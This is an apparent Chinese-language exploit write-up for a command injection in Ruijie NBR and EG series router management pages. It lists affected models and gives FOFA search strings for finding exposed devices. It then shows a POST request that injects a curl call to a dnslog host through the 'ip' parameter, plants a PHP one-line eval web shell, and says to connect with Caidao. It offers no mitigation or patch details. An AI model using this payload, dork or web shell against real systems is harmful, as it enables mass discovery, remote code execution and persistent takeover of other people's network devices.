

# 影响范围：
NBR系列:  
NBR108G-P、NBR1000G-E、NBR1300G-E、NBR1700G-E、NBR2100G-E、NBR2500D-E、NBR3000D-E、NBR6120-E、NBR6135-E、NBR6205-E、NBR6210-E、NBR6215-E、NBR800G、NBR950G、NBR1000G-C/NBR2000G-C/NBR3000G-S   
EG系列:  
RG-EG1000C、RG-EG2000F、RG-EG2000K、RG-EG2000L、RG-EG2000CE、 RG-EG2000SE、RG-EG2000GE、RG-EG2000XE、RG-EG2000UE、RG-EG3000CE、RG-EG3000SE、RG-EG3000GE、RG-EG3000ME、RG-EG3000UE、RG-EG3000XE、RG-EG2100-P、EG3210、EG3220、EG3230、EG3250
# FOFa dork：
title="锐捷网络-EWEB网管系统"  
icon_hash="-692947551"
# 漏洞复现：
登录页面：
  
漏洞发生于文件 /guest_auth/guestIsUp.php，通过构造请求包，在ip参数处通过拼接命令进行命令执行，post包如下：    
```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 61


mac=1&ip=127.0.0.1|curl xxx.dnslog.cn&mac=00-00
```
  
Dnslog成功接收到响应    
  
脚本执行后自动上传PHP一句话到服务器
```
<?php @eval($_POST[a]);?>
```
  
使用菜刀连接即可  


